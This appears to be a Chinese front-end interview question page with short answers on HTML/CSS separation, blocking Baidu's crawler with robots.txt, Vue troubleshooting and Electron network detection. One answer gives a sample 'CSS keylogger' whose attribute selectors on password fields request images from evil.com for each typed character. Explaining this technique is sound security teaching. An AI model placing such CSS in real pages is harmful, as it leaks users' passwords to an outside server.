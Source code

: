 # [html] 第344天 你是如何理解html与css分离的？

html负责定义网页的结构，css负责定义网页的表现，包括字体的颜色、大小、位置和布局等。
- 可维护性强，修改样式时只需修改css文件，不会影响html文件。
- css样式可以在多个html之间复用
- 浏览器可以缓存外部的css文件，减少网络请求次数，提高页面加载速度。
- 结构化的html更有利于seo优化

# [css] 第344天 使用纯css能否监控到用户的一些信息？怎么实现？


可以，著名的css keylogger：
```css

input[type="password"][value$="a"] {
  background-image: url("http://evil.com/api/a");
}

input[type="password"][value$="b"] {
  background-image: url("http://evil.com/api/b");
}

input[type="password"][value$="c"] {
  background-image: url("http://evil.com/api/c");
}
/* ...以此类推... */

```
当用户输入密码时，这段css会请求用户输入的字符对应的资源，远端服务器通过监视请求资源的顺序从而推断用户的密码。所以css也不是绝对安全的

# [js] 第344天 使用js生成1-10000的数组

# [软技能] 第344天 如何禁止百度爬虫抓取网站？

在网站根目录下创建robots.txt文件，告诉爬虫哪些页面可以抓取哪些不行
添加如下两行
User-agent: Baiduspider
Disallow: /

# [vue] Vue项目上面遇到关于vue框架自身的坑一般怎么处理？

- 查阅官方文档
- 搜索github仓库上的issue
- 搜素引擎搜索相关问题

# [Electron] 第1681天 Electron如何进行网络状态检测？

- web api中的navigator.onLine属性
- 在页面上监听online和offline事件
